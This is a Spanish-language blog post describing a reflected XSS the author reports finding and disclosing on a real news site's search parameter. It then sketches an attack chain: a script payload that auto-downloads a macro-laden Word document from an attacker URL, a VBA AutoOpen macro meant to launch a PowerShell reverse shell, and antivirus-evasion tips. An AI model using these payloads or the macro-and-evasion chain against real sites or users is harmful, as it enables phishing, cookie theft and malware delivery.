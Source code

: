```yaml
---
layout: post
title: Simple XSS reflejado en un entorno real
author: c4rta
date: 2023-06-28
##categories: [Maquinas, HackTheBox]
tags: [XSS]
image: 
  path: /assets/img/simple_xss/waifu.gif
---
```


{:.lead}

**Este no es ningun writeup, pero te voy a mostrar como encontre de casualidad una vulnerabilidad ```XSS reflejado``` en un sitio web real, cabe recalcar que la vulnerabilidad ya la reporte, y no estoy promoviendo explotar vulnerabilidades en entornos reales, y simplemente te voy a dar la idea de algo que podria hacer alguien con malas intenciones, que este no es el caso, y espero que el tuyo tampoco**

## XSS reflejado

De acuerdo a port swigger se trata de:

> Surge cuando una aplicación recibe datos en una solicitud HTTP e incluye esos datos en la respuesta inmediata de forma no segura

Es decir que en un XSS reflejado los datos que mándamos por una petición HTTP se reflejan en la respuesta que da el servidor web hacia el cliente (navegador)

Cómo dice OWASP:

> El ataque se lleva a cabo a través de un único ciclo de solicitud/respuesta

En este tipo de XSS el codigo no reside en la aplicacion web como tal y no se encuentra del lado del servidor, y regularmente un atacante puede incrustar su payload malicioso en la URL generada y enviarselo a la victima, obvio se usa ingenieria social y phishing para que sea mas creible

## Identificando el XSS

> Evidentemente voy se censurar la URL

**¿Como me di cuenta que era un XSS?**

Fue muy random, originalmente yo solo queria buscar una noticia, entonces use su barra de busqueda para encontrar lo que queria, cuando busque por un termino me di cuenta de la forma tan peculiar de la URL y como se mostraban los datos en la pagina, mira:

![](/assets/img/simple_xss/1.png)

Vean como cuando se realiza una busqueda, te manda a la ruta ```/buscar/``` la cual tiene un parametro de consulta el cual es la ```q```, como se ve en ```?q=c4rta```, asi que el parametro ```q``` es utilizado para especificar el termino que se quiere buscar, y del lado de la pagina web, el termino que busque se refleja en la pagina web

![](/assets/img/simple_xss/2.png)

Esto ya estaba curioso, asi que decidi mostrar el codigo fuente de la pagina cuando se realiza la busqueda, y por suerte encontre la funcion que realiza la busqueda

![](/assets/img/simple_xss/3_000.png)

Primero con:

```js
var searchString = document.getElementById('searchtextsimple').value;
```
Lo que esta haciendo es crear una variable llamada ```searchString``` la cual va a contener el valor del atributo ```value``` del elemento con el id ```searchtextsimple```, y ese elemento con el id es este:

```html
<input id="searchtextsimple" type="text" name="q" class="form-control" placeholder="Buscar" value="c4rta"></input>
```

Despues en el JS tenemos que nuestro input el cual esta guardado en ```searchString``` se le concatena sin ningun tipo de procesamiento ni sanitizacion a la URL a tra vez del parametro ```q```:

```js
var url = "https://<URL>/barebone/wf.template/config.default.master.withgroupcount?q=" + encodeURI(searchString);
```

Y por ultimo carga la URL para mostrarla en la web:

```js
$(".results-group.parent").load(url);
```

Entonces tenemos que nuestro input se guarda en al atributo ```value``` de  la etiqueta ```<input>``` y despues se extrae y se concatena directamente en la URL para luego ser interpretado por el sitio web, la vulnerabilidad es obvia, al yo tener control total de lo que quiero buscar y este sera interpretado, entonces puedo probar por XSS a ver si interpreta codigo de JS, ahora le ingresare esto como input:

```js
<script>alert("Prueba XSS")</script>
```

Y vean como si nos interpreta el JS y ya nos dimos cuenta que tenemos un XSS reflejado

![](/assets/img/simple_xss/4.png)

Y en la URL se incrusto el codigo de XSS

![](/assets/img/simple_xss/5.png)

Podria usar otro payload para obtener las cookies, y curiosamente este sitio web tiene un monton

```js
<script>alert(document.cookie)</script>
```
<center><img src="/assets/img/simple_xss/6.png" width=290px height=200px></center><br>

Evidentemente censure todo por que sale mi cookie de sesion asi como otras muchas, y es posible que hayas pensado que este XSS una vez teniendo la cookie de sesion podria conducir a un CSRF/XSRF, y es correcto mientras sea vulnerable a ello. pero este vez vamos a ir mas alla, por que este XSS lo vamos combinar con malware, mas en concreto algo que se le conoce como ```MalDoc```

## MalDoc

MalDoc viene de Malicious Document, y lo que podria hacer ahora es crear una macro en VBS la cual vamos a incrustar en un docx, donde la macro se ejecutara automaticamente al abrirse el documento, y vamos a aprovechar el XSS para crear un payload que al entrar a la URL vulnerable a XSS, se descargue automaticamente el documento de una URL creada por el atacante, el payload es el siguiente:

```js
<script> 
    var link = document.createElement('a');
    link.href = 'URL:8080/MalDoc.docx';
    link.download = 'MalDoc.docx';
    link.click();
</script>
```

Basicamente el escenario seria que nosotros como atacantes le mandemos a la victima la URL del sitio vulnerable con el payload, la victima abra la URL, se descargue automaticamente el docx, se redireccione al sitio original de la pagina vulnerable, la victima abra el documento que contiene una macro, la macro se ejecute y ejecuta un comando que podria ser una reverse shell

Esto pasaria si la victima abre el link con el payload:

![](/assets/img/simple_xss/7.png)

Vean como la URL tiene el payload, y el entrar al link, se descargar automaticamente el documento del sitio web del atacante, en este caso, es un servidor web que cree con python y que tiene mi IPv4.

Y entonces al abrirlo se deberia de ejecutar la macro con la reverse shell, pero ¿Como se crea la macro?, bueno, el msfvenom ya tiene modulos para crear un MalDoc y una macro maliciosa, pero estamos aprendiendo, hay que hacerlo manual, simplemente de voy a dar la idea, no lo voy a poner a prueba.

Podriamos crear un archivo VBS de esta manera:

```vb
Sub AutoOpen()
Comando_Ps = "el tipico oneliner de powershell"

Dim Shell As Object
Set Shell = CreateObject("Wscript.Shell")
Shell.Run (Comando_Ps)

End Sub
```

Basicamente lo que va a hacer es ejecutar un comando de powershell que se declare en la variable ```Comando_Ps``` a tra vez de un objeto ```Wscript.Shell```

Y ahora para incrustarla en el docuemento se puede hacer uso de ```Microsoft Visual Basic for Applications``` y guardar el documento con la macro.

Y seguramente diras: "Eso no evade ningun antivirus, y el defender lo va a detectar", y en efecto, asi que te dare unos tips

- Usa Invoke-Obfuscation
- Usa procesos VMI
- Usa StrRerverse() para agregar un poco mas de ofuscacion
- Usa WMI Win32_PingStatus para evadir sandboxes

(Estas tecnicas que acabe de mencionar, como lo de MalDoc con la macro y las tecnicas para evadir antivirus pienso dedicarles un post aparte)

> Recuerda que la vulnerabilidad ya esta reportada, y no estoy promoviendo la creacion de malware ni tampoco el explotar vulnerabilidades sin el permisos de otros, es meramente educativo e informativo.

Eso ha sido todo, gracias por leer ❤